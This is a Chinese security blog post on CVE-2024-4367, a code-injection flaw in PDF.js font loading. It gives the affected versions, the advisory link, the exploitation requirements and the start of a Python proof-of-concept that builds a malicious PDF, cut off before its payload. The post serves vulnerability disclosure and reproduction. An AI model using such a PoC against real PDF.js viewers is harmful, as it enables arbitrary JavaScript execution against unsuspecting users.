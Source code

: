 #  听说PDF.js插件漏洞很火？   
巢安实验室  巢安实验室   2024-05-23 21:50  
  
**0x00 前言**  
  
  
PDF.js 是一个使用 HTML5 构建的便携式文档格式查看器。  
pd  
f.js 是社区驱动的，并由 Mozilla 支持。  
我们的目标是为解析和呈现 PDF 创建一个通用的、基于 Web 标准的平台。  
  
**0x01 漏洞描述**  
  
在font_loader.js中存在代码注入漏洞，当PDF.js配置isEvalSupported选项设置为true(默认值)时会将输入传递到eval()函数，攻击者可通过诱导用户打开恶意PDF文件来利用漏洞，成功利用漏洞可以执行任意JavaScript。  
  
**0x02 CVE编号**  
  
CVE-2024-4367  
  
**0x03 影响版本**  
  
  
Mozilla PDF.js < 4.2.67  
  
pdfjs-dist(npm) < 4.2.67  
  
react-pdf(npm) < 7.7.3  
  
8.0.0 <= react-pdf(npm) < 8.0.2  
  
  
**0x04 漏洞详情**  
  
参见下方链接  
```
https://github.com/mozilla/pdf.js/security/advisories/GHSA-wgrm-67xf-hhpq
```  
  
**0x05 漏洞复现**  
  
**利用要求：**  
  
目标服务器是通过pdf.js插件打开pdf格式文件的，能传pdf到目标服务器，能找到上传的pdf路径，能通过pdf.js查看上传的pdf文件。  
  
**POC**  
```
import io
import sys

# CVE-2024-4367

def create_malicious_pdf(filename, payload):
    print("[*] POC Generated")
    pdf_content = f'''
%PDF-1.4
%
8 0 obj
<<
/PatternType 2
/Shading<<
  /Function<<
    /Domain[0 1]
    /C0[0 0 1]
    /C1[1 0.6 0]
    /N 1
    /FunctionType 2
  >>
  /ShadingType 2
  /Coords[46 400 537 400]
  /Extend[false false]
  /ColorSpace/DeviceRGB
```